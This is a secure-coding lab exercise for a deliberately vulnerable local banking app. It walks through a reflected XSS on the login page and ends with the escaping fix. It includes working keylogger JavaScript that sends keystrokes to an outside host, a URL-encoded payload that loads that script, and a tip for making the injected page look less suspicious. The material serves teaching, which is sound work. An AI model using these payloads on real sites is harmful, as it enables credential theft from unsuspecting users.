 # Exercise 2 - Stealing Credentials with XSS

This exercise is to help you understand how an XSS vulnerability on a login page can be used to install a key-logger and steal your credentials.

## Setup and Start Applications

1. Start the application in debug mode
   * start the Maven configuration for the launch configuration "v-bank run and build" in DEBUG mode (with the green BUG icon next to the arrow;
   you should have created it as described in IntelliJSetup.md)
1. Open v-bank application and DO NOT log in 
   1. Open http://localhost:8080/ in the browser

## Check for XSS vulnerability. 
Hints:
   * All pages including the login page contain a reflect XSS vulnerability
   * The name of the vulnerable request parameter is __info__
   * Try : http://localhost:8080/login?info=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E  <br/>
   Please note that that the above is the URL encoded version of:
``` http://localhost:8080/login?info=<script>alert('XSS')</script>```

## Carft URL deploying keylogger

So we need to craft a URL with a script tag installing a keylogger into he HTML page instead of the _&lt;script&gt;alert('XSS')&lt;/script&gt;_  

There is a benign keylogger implementation in http://sprg-tools.el.eee.intern/js/stealcreds.js; the name of the function is _installKeylogger_

```javascript
function installKeylogger(cat) {
    category = cat ? cat : 'me';
    document.onkeypress = function (e) {
        var timestamp = Date.now() | 0;
        var stroke = {
            k: e.key,
            t: timestamp
        };
        buffer.push(stroke);
    }
    window.console.log('keylogger installed.');
    window.setInterval(function () {
        if (buffer.length > 0) {
            sendToLogService(buffer);
            buffer = [];
        }
    }, 200);
}

function sendToLogService(jsondata) {
    var data = encodeURIComponent(JSON.stringify(jsondata));
    var url = urlroot + '/log/' + category + '/' + data;
    new Image().src = url;
    window.console.log('data sent, url : ' + url);
} 
```
As you may see it makes log statements, so that you can verify in Chrom DevTool's JavaScript Console if it was installed and keystrokes were sent.
This is only for your understanding, in a real key-logger there are no such DEV features :)

The HTML snippet to load the script and install the key-logger is:   
```<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```   

You should pass it to the login page with the _info_ request parameter:
Link: http://localhost:8080/login?info=Welcome%20back!%3Cscript%20src=%27http://sprg-tools.el.eee.intern/js/stealcreds.js%27%3E%3C/script%3E%3Cscript%3EinstallKeylogger()%3C/script%3E  
Which is the URL encoded form of: ```http://localhost:8080/login?info=Welcome back!<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script>```  
  
>Please note the "Welcome back!" message. This is to avoid displaying an empty message box, which might be suspicious.

## Fall Victim to the keylogger
Please open the above page with the XSS payload installing the script and TYPE something into the username and login fields. 

## Check logged keystrokes
The key-logger sends keystrokes to a simple web service at http://sprg-tools.el.eee.intern/log/me
If you open the same URL with the browser it should display keystrokes sent from your IP address.

## Fix 

The vulnerability is in the _page.tag_ template file, which a decorator user by all pages of the application.  
It is because between lines 45 and 54 the variables _error_ and _info_ are written into the generated HTML without HTML/XML escaping.  
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert">${error}</div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert">${info}</div>
        </div>
    </c:if>
```
To fix this you need to wrap the `${error}` and `${info}` expressions into a special tag that enables escaping. They will be is `<c:out value='${error}' escapeXml='true' />` and `<c:out value='${info}' escapeXml='true' />`, respectively.
```xml
    <c:if test="${not empty error}">
        <div class="container">
          <div class="row alert alert-danger" role="alert"><c:out value='${error}' escapeXml='true' /></div>
        </div>
    </c:if>
    <c:if test="${not empty info}">
        <div class="container">
            <div class="row alert alert-info" role="alert"><c:out value='${info}' escapeXml='true' /></div>
        </div>
    </c:if>
```
### Verify fix
Please stop and start the application again and open the links:
* http://localhost:8080/login?info=Welcome back!<script src='http://sprg-tools.el.eee.intern/js/stealcreds.js'></script><script>installKeylogger()</script> 
Now no popup should be displayed. And you should see html code in the browser
![](images_exercises/Script_Tag_Escaped.png)